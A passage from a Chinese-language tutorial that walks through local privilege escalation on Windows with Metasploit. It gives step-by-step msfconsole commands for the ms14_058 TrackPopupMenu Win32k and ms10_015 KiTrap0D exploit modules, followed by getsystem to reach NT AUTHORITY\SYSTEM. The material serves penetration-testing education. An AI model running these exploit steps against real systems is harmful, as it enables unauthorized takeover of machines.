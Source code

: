 ```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801763_5b99bbe333e8f.png!small)**

## **Windows TrackPopupMenu Win32k NULL指针解引用**

此模块利用了win32k.sys中的NULL指针解引用，漏洞可通过TrackPopupMenu函数进行触发。在特殊情况下，我们可以滥用在xxxSendMessageTimeout上的NULL指针解引用，来实现任意代码执行操作。

该模块已在Windows XP SP3，Windows Server 2003 SP2，Windows 7 SP1 Windows Server 2008 32位和Windows Server 2008 R2 SP1 64位上进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801776_5b99bbf02921f.png!small)**

## 通过KiTrap0D提升Windows权限

此模块将通过KiTrap0D exploit创建具有SYSTEM权限的新会话，如果当前使用的会话权限已提升，则exploit将不会运行。该模块依赖于kitrap0d.x86.dll，因此在x64版本的Windows上不受支持。

该模块已在32位的Windows Server 2003，Windows Server 2008，Windows 7和XP易受攻击版本上进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms10_015_kitrap0d
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```
